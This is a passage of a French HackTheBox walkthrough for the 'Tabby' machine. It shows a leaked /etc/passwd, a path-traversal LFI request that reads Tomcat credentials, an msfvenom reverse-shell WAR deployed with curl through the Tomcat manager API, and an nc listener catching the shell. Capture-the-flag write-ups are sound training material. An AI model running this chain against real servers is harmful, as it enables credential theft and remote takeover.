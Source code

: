 ```bash
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

### Tomcat Credentials using LFI
En utilisant la LFI sur le site web port 80, on peut retrouver les creds pour le serveur apache tomcat présent sur le port 8080:
```bash
GET /news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1

-------------------------
...
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

### Upload War file
On comprend que le role manager-script nous permet d'utiliser l'API tomcat pour pouvoir upload un shell. Habituellement on aurait plus utiliser la GUI pour le faire, mais il nous manquer le role manager-gui ! On peut tout de meme le faire donc avec manager-script mais uniquement avec l'API, ce qu'on fait ici avec un curl :
```bash
~/github/Hacking/HackTheBox/Machines/Linux/Easy/Tabby (main*) » msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -f war -o shell.war 
Payload size: 13027 bytes
Final size of war file: 13027 bytes
Saved as: shell.war

~/github/Hacking/HackTheBox/Machines/Linux/Easy/Tabby (main*) » curl -X PUT -u 'tomcat:$3cureP4s5w0rd123!' --upload-file shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/shell&update=true'
OK - Deployed application at context path [/shell]

---------------------------

~ » nc -lnvp 1337                        
listening on [any] 1337 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.194] 46720
whoami
tomcat
```
